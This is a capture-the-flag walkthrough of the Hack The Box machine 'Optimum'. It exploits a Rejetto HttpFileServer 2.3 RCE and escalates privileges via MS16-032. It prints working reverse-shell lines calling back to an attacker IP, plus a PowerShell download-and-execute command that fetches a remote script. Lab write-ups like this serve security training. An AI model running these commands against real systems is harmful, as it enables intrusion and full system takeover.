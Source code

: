 # Optimum

### Machine Info:
![alt text](screenshots/machine_info.png)

#### Nmap:
![alt text](screenshots/nmap.png)


##### HTTP server (Port 80):
HTTP server is running with `rejetto HttpFileServer httpd 2.3`. I tried to login with default/common credentials but failed.
![alt text](screenshots/http.png)

Let's check if `httpfileserver` has vulnerability or not.
![alt text](screenshots/search.png)

As we can see `Rejetto HTTP File Server 2.3` has RCE vulnerability.


##### Vulnerability:
The host `Optimum` is running web application `Rejetto HTTP File Server version 2.3` which has `RCE(Remote Code Execution)` vulnerability. By using this, the attacker can obtain a shell.


##### Exploit:
```
Exploit Code: https://www.exploit-db.com/exploits/39161
```

Modification of Code:
```
# Just change the local ip address and port number
ip_addr = "10.10.14.37" #local IP address                                                                                                                                                                                                             
local_port = "443" # Local Port number  
```

Execute Exploit:
```
~/htb/optimum
❯ python 39161.py -h           
[.]Something went wrong..!
        Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
        Don't forgot to change the Local IP address and Port number on the script

~/htb/optimum
❯ python 39161.py 10.10.10.8 80
```

`nc` listener on attacking machine:
![alt text](screenshots/nclistener.png)


#### Privilege Escalation:

###### Vulnerability:
```
MS16-032: Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalation (MS16-032) (PowerShell)
Exploit Code: https://www.exploit-db.com/exploits/39719
```



Running python `SimpleHTTPServer` to transfer exploits:
```
~/htb/optimum
❯ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```


From the low privilege shell:
Run Nishang's `Invoke-PowerShellTcp.ps1` to get PowerShell reverse shell.
[]()https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1`

Modification of PowershellTcp:
```
# Add below line to the end of the script to get reverse shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 4444
```  

Powershell reverse shell:</br>
![alt text](screenshots/powershelltcp.png)
```
# The powershell should be x64 otherwise
# the x32 will be loaded and the exploit will not work.
# Path for powershellx64:
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe
```

`nc` listener on attacking side with port 4444:
![alt text](screenshots/nc.png)


Modification of exploit (ms16-032.ps1 and another TCP Reversehell):
```
# MS16-032.ps1
# Add below line to the end of the script to get privileged reverse shell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.37:8080/shell.ps1')"
```

```
# shell.ps1
# Copy Nishang's Invoke-PowerShellTcp.ps1 and change name to shell.ps1
# Add below line to the end of the script to get privileged reverse shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 4445
```

###### Exploit:

Download and execute `Invoke-MS16032.ps1`:
![alt text](screenshots/ms16-032.png)

`nc` listener on attacking side with port 4445:
![alt text](screenshots/system_shell.png)

And you can get `root.txt` :)
